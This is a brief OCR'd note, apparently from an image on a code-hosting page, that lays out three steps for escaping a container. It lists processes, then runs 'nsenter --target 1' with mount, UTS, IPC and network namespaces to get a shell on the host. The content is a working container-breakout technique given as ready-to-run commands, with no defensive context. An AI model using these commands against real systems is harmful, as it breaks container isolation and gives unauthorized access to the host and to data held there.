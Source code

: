 # STEPS

### 1) ps aux to list processes

### 2) If we detect anything interesting, we can invoke the command: nsenter --target 1 --mount sh or: nsenter --target 1 --mount --uts --ipc --net /bin/bash

### 3) If it worked, we escaped the container!
